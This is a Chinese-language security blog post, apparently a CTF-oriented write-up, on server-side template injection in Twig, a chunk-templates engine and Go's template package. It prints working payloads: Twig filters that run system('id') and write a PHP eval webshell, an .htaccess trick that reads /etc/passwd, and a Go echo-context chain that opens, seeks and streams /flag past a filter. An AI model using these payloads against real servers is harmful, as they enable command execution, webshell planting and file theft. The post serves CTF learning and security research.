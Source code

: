 

# 浅谈模板语法的一些共性和 GoLang 模板的一些机制 - 先知社区

浅谈模板语法的一些共性和 GoLang 模板的一些机制

- - -

### Background

翻了下自己的收藏发现有很多模板注入相关的记录，于是拿出一些共性来分析下，而 GoLang 是相对非常安全的语言，除了过时的库以外，现在唯一的可以玩的地方就是 SSTI，我在做相关的 CTF 题时候，发现了一些有趣的玩法

### 模板语法的一些共性

#### 解析头

近几年在关注一些 CTF 中，我发现了一些比较有趣的事情，比如某些语法是具有通用性的

首先都会有一些解析的符号标识 比如{{}} {% %} 有的时候就会在这里作文章。比如我以前在 wolvesec ctf 中提到一个 chunk-templates 的模板

[![](assets/1708920211-9e3a39bf3be7dd3a0b787cd0d3039f31.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215013023-bc326cee-cb5e-1.png)

这里我们搜索相关文档的时候，可以发现$就是他解析的标识 但是

[![](assets/1708920211-282dc3f98015849bf8a9daebe84b5795.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215013037-c40cf5c4-cb5e-1.png)

在这道题目里面$被 ban 掉了 但你打断点跟进模板解析的时候会发现

[![](assets/1708920211-4696d8dfd7e2bcd8feb530205b389dcb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215013048-cb1a6d4c-cb5e-1.png)

~同样可以作为模板解析的字符 所以你在关注解析引擎的时候一定要看完整的解析过程，多读代码

#### 某些函数

除了这个之外还有一些有意思的是有些语法支持函数调用，同样我在先知发过一篇高版本模板注入 tricks 提到了 Twig 模板

```plain
{{["id"]|map("system")}}
{{{"<?php phpinfo();eval($_POST[1])":"/var/www/html/1.php"}|map("file_put_contents")}}    
{{["id", 0]|sort("system")}}
{{["id"]|filter("system")}}
{{[0, 0]|reduce("system", "id")}}
```

支持以 | 形式的函数调用

我们刚才提到的这个 chunk-template 很显然也支持这种类似的调用方法

```plain
{.{%24flag%7d|urldecode()}
```

#### 语法

每个模板也都有很多常见的语法 比如 if

```plain
{% if ($weather) %}
 {% if ($weather == sunny) %}
  {% include #picture_of_sun %}
 {% elseIf ($weather == rainy)  %}
  {% include #picture_of_rain %}
 {% elseIf ($weather =~ /snowy|flurries/) %}
  {% include #picture_of_snow %}
 {% elseIf ($weather == $weather_in_philly) %}
  {% include #always_sunny %}
 {% else %}
  {% include #default_picture %}
 {% endif %}
{% endif %}
```

支持类似这样的调用，这个给了我们一些思路，比如在某些情况下，我们可不可以通过盲注的手法，来获取一些东西呢？

答案肯定是可以的

比如在上面说的那道题里

```plain
{{% if(flag=~/^{re.escape(tmp)}/) %}}{test}{{% endif %}}
```

如果监测到 test 就继续加入一直重复下去就好

在模板之外，也有类似的东西 在曾经某个比赛中一道文件上传的题 本意考察.htaccess 的 rce 利用方式，但是在 wupco 老师的 wp 里给了我们一个耳目一新的新解法

他说 在.htaccess 里其实也支持 if 类似的匹配，而且还有一个神奇的函数 file

可以进行读取文件，但是比较麻烦的一点在于，怎么判断匹配正确与否呢？

wupco 老师 定义了一个 ErrorDocument 是 404 这样如果报错 就可以在一个 404 网页看到他定义的 wupco 字符串，真是一个天才的思路

```plain
<If "file('/etc/passwd')=~ /root/">
ErrorDocument 404 "wupco"
</If>
```

### GoLang 模板注入的一些机制

某道题目里的大致代码如下

```plain
func templateMiddleware(next echo.HandlerFunc) echo.HandlerFunc {
    return func(c echo.Context) error {
        file, err := os.Open("./template.html")
        if err != nil {
            return err
        }
        stat, err := file.Stat()
        if err != nil {
            return err
        }
        buf := make([]byte, stat.Size())
        _, err = file.Read(buf)
        if err != nil {
            return err
        }

        userTemplate := c.Request().Header.Get("Template")

        if userTemplate != "" {
            buf = []byte(userTemplate)
        }

        c.Set("template", buf)
        return next(c)
    }
}

func handleIndex(c echo.Context) error {
    tmpl, ok := c.Get("template").([]byte)

    if !ok {
        return fmt.Errorf("failed to get template")
    }

    tmplStr := string(tmpl)
    t, err := template.New("page").Parse(tmplStr)
    if err != nil {
        return c.String(http.StatusInternalServerError, err.Error())
    }

    buf := new(bytes.Buffer)

    if err := t.Execute(buf, c); err != nil {
        return c.String(http.StatusInternalServerError, err.Error())
    }

    return c.HTML(http.StatusOK, buf.String())
}

func main() {
    e := echo.New()

    e.Use(middleware.Logger())
    e.Use(middleware.Recover())

    e.GET("/", handleIndex, templateMiddleware)

    e.Logger.Fatal(e.Start(":3001"))
}
```

我们可以很容易看见这个需要我们在 template 传模板 想到直接调用 File 就好了

```plain
{{ .File "/flag" }}
```

但是其实他做了一层 proxy

```plain
if (/flag\{.*\}/.test(data)) {
          return reply.code(403).send("??");
        }
```

不允许出现 flag 字样 我翻阅了一些相关资料 发现

```plain
{{ .Echo.Filesystem.Open "/etc/passwd" }}
```

我们可以通过这样的方式来打开文件 但是他返回的值是[`fs.File`](https://pkg.go.dev/io/fs#File)

[![](assets/1708920211-a7f5e6d179235a69784317ee337c8394.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215013101-d2bab246-cb5e-1.png)

但是他有一个 Read 函数 但是传入的是个数组 开心的是

```plain
if userTemplate != "" {
            buf = []byte(userTemplate)
        }
```

本身模板就是数组

所以我们可以

1.  `{{ $a := .Get "template" }}`
2.  `{{ $b := .Echo.FileSystem.Open "/flag" }}`
3.  `{{ $c := $b.Read $a }}`
4.  `{{ $a }}`

就可以了，最后获得的结果是 byte\[\]转换一下就好了

那有没有别的思路呢？

因为他只针对匹配了一个 flag 的头，根据我们以前的思路 还是可以寻找一些查找相关的方法 如何清洗掉

找到了一个 os.File 中的 Seek 方法，那便移掉四位头其实就可以了

[![](assets/1708920211-84758d7f6aa988aada363309f0f03d53.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215013113-d97a59b0-cb5e-1.png)

而且我发现了个 echo.Context 接下来的结构体

```plain
func (c *context) Stream(code int, contentType string, r io.Reader) (err error) {
    c.writeContentType(contentType)
    c.response.WriteHeader(code)
    _, err = io.Copy(c.response, r)
    return
}
```

Stream 打开的文件会被复制和响应，而且可以自定义 ContentType 头，那我们还可以省一步转 byte

poc 如下

```plain
{{ $f :=  .Echo.Filesystem.Open "/flag" }} {{ $f.Seek 4 0 }} {{ .Stream 200 "text/html" $f }}
```

### 总结

模板语言的特性和一些语法有很多，在实际使用中，可以更多的关注文档和 IDE，比如一个好的找 Golang 结构体的方法，就是通过 Vscode 查找。
